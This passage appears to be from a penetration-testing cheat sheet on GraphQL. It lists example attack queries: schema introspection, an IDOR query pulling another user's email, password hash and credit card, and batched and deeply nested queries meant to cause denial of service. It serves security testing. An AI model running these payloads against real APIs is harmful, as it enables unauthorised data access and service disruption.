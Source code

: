 ```graphql
# Introspection (if enabled)
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}

# IDOR in GraphQL
{
  user(id: 124) {
    email
    password_hash
    credit_card
  }
}

# Batch queries (DoS)
{
  user1: user(id: 1) { name }
  user2: user(id: 2) { name }
  user3: user(id: 3) { name }
  ...
  user10000: user(id: 10000) { name }
}

# Nested queries (DoS)
{
  users {
    posts {
      comments {
        author {
          posts {
            comments {
              author {
                name
              }
            }
          }
        }
      }
    }
  }
}
```

### API Rate Limiting Testing
